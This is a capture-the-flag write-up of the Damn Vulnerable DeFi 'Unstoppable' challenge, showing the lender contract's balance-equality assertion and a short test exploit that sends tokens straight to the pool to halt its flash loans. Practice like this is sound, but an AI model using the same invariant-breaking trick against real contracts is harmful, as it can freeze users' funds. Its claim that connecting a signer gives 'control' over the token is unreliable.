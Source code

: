 # Challange #1 - Unstoppable

### There’s a tokenized vault with a million DVT tokens deposited. It’s offering <b>flash loans</b> for free, until the grace period ends.

### To pass the challenge, make the vault stop offering <b>flash loans</b>.

<b>_Flash Loans_</b> is located in the <b>UnstoppableLender.sol</b> file.

Challange is to disable the <b>flash loans</b> in the <b>UnstoppableLender.sol</b> file.

this function takes a uint256 borrowAmount as a parameter.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {}
```

now we need to inspect variable poolBalance in [UnstoppableLender.sol](/CTF%20-%20Damn%20Vulnerable/contracts/unstoppable/UnstoppableLender.sol) file.

```solidity]:

1. ```solidity
   uint256 public poolBalance;
   ```
2. ```solidity
   function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
   ```
3. ```solidity
   assert(poolBalance == balanceBefore);
   ```

## [Best place to exploit](/CTF%20-%20Damn%20Vulnerable/contracts/unstoppable/UnstoppableLender.sol)

```solidity

```solidity
assert(poolBalance == balanceBefore);
```

## [Exploit](/CTF%20-%20Damn%20Vulnerable/test/unstoppable/unstoppable.challenge.js)

```javascript
it("Exploit", async function () {
	const TokenContractExploit = this.token.connect(attacker);
	await TokenContractExploit.transfer(
		this.pool.address,
		INITIAL_ATTACKER_TOKEN_BALANCE
	);
});
```

## Explanation

```javascript
const TokenContractExploit = this.token.connect(attacker);
```

This line creates a new instance of the token contract (DamnValuableToken) connected to the attacker account.
It allows the attacker account to interact with the token contract, effectively gaining control over it.

```javascript
await TokenContractExploit.transfer(
	this.pool.address,
	INITIAL_ATTACKER_TOKEN_BALANCE
);
```

This line initiates a transfer of tokens from the attacker's controlled instance of the token contract to the lending contract (UnstoppableLender).
The transferred amount is INITIAL_ATTACKER_TOKEN_BALANCE, which is set to 100 tokens.
